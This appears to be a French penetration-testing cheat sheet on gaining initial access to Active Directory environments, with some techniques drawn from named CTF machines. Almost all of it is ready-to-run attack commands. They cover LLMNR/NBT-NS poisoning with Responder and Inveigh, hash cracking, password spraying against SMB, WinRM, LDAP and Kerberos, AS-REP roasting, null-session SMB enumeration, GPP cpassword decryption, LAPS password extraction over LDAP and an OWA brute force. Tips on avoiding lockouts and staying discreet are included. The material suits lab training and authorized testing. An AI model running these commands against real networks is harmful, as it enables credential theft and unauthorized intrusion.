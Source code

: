 # Obtention d'un Premier Accès

## Empoisonnement LLMNR/NBT-NS

### Depuis Linux (Responder)

```bash
# Lancement de Responder
sudo responder -I eth0 -wfv

# Capture de hashes NetNTLMv2
# Les hashes s'afficheront dans la console et seront stockés dans /usr/share/responder/logs/
```

### Depuis Windows (Inveigh)

```powershell
# Importer le module
Import-Module .\Inveigh.ps1

# Démarrer la capture avec les options de base
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -LLMNR Y -FileOutput Y

# Version C# executable directement
.\Inveigh.exe
```

### Craquage des hashes NetNTLMv2

```bash
# Avec Hashcat (mode 5600)
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt

# Avec John the Ripper
john --format=netntlmv2 captured_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## Password Spraying

### Avec CrackMapExec

```bash
# Spraying contre SMB
crackmapexec smb 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success

# Spraying contre autres services
crackmapexec winrm 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success
crackmapexec ldap 172.16.5.5 -u users.txt -p "Password123!" --continue-on-success
```

### Avec Kerbrute

```bash
# Spray Kerberos pre-auth
./kerbrute_linux_amd64 passwordspray -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 users.txt "Winter2022!"
```

### Protection contre le verrouillage de compte

```bash
# Vérifier la politique de verrouillage
crackmapexec smb 172.16.5.5 -u username -p password --pass-pol

# Vérifier les bad pwd counts
crackmapexec smb 172.16.5.5 -u username -p password --users | grep "badpwdcount"
```

## AS-REP Roasting

### Identification des comptes vulnérables

```bash
# Avec Impacket
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# Avec PowerView
Get-DomainUser -PreauthNotRequired | select samaccountname
```

### Craquage des hashes AS-REP

```bash
# Avec Hashcat (mode 18200)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
## Accès anonymes et configurations faibles

### Sessions NULL SMB

```bash
# Tester l'accès null session
smbclient -N -L //172.16.5.5/
rpcclient -U "" -N 172.16.5.5

# Énumération avec enum4linux
enum4linux -a -u "" -p "" 172.16.5.5
```

### Partages anonymes

```bash
# Lister et monter des partages anonymes
smbclient -N //172.16.5.5/SYSVOL
smbclient -N //172.16.5.5/NETLOGON
```

### Extraction d'informations des GPP (Group Policy Preferences)

```bash
# Recherche de fichiers cpassword dans les Group Policies
findstr /S /I cpassword \\172.16.5.5\sysvol\*.xml

# Déchiffrement avec gpp-decrypt
gpp-decrypt "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"
```

## Exploitation d'accès web et portails

### OWA et portails d'entreprise

```bash
# Bruteforce OWA
hydra -L users.txt -P passwords.txt -f 192.168.1.10 https-post-form "/owa/auth.owa:destination=https%3A%2F%2F192.168.1.10%2Fowa&flags=4&forcedownlevel=0&username=^USER^&password=^PASS^&isUtf8=1:Location"
```

## Points importants

- Toujours documenter les credentials obtenus
- Rechercher les modèles/patterns de mots de passe pour de futurs sprays
- Surveiller attentivement les tentatives de connexion pour éviter les verrouillages
- Privilégier les méthodes discrètes (Kerbrute) avant les méthodes bruyantes
- Vérifier d'abord les comptes par défaut et les utilisateurs à faible privilège

## Techniques d'énumération tirées de CTFs réels
#### Énumération LDAP pour mots de passe (Hutch)
Il est parfois possible d'extraire directement des mots de passe LAPS via LDAP:
```bash
ldapsearch -x -H 'ldap://192.168.x.x' -D 'domaine\utilisateur' -w 'MotDePasse' -b 'dc=domaine,dc=tld' "(ms-MCS-AdmPwd=)" ms-MCS-AdmPwd
```

Cette commande recherche spécifiquement l'attribut `ms-MCS-AdmPwd` qui contient les mots de passe LAPS en clair stockés dans Active Directory.
### Fuzzing de sous-domaines (Shibboleth)
Utiliser wfuzz pour découvrir des sous-domaines cachés:
```bash
wfuzz -u http://domaine.tld -H "Host: FUZZ.domaine.tld" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```
Le paramètre `--hw 26` ignore les réponses ayant exactement 26 mots (utile pour filtrer les réponses "page non trouvée" standard).
### Analyse de métadonnées de fichiers (Intelligence, Reel)

1. Extraire des informations des métadonnées de PDF avec exiftool:
   ```bash
   exiftool document.pdf
   ```
2. Analyser minutieusement les captures d'écran dans les documents - zoomer sur les post-it, moniteurs ou tableaux blancs visibles qui pourraient contenir des identifiants.
3. Vérifier les noms d'utilisateurs dans les propriétés "Auteur" des documents Office.
## Techniques d'attaque Kerberos tirées de CTFs réels
#### Kerberos Pre-Authentication désactivée (Forest, Sauna)
Identifier et exploiter les utilisateurs dont la pré-authentification Kerberos est désactivée:
```bash
# Avec Impacket
GetNPUsers.py domaine.tld/ -dc-ip 10.10.10.x -request -format hashcat

# Avec Kerbrute (alternative)
kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

Les hash obtenus peuvent être crackés avec Hashcat (mode 18200):
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
Cette technique fonctionne car la pré-authentification désactivée permet d'obtenir un TGT chiffré avec la clé de l'utilisateur (dérivée de son mot de passe), qui peut ensuite être craqué hors ligne.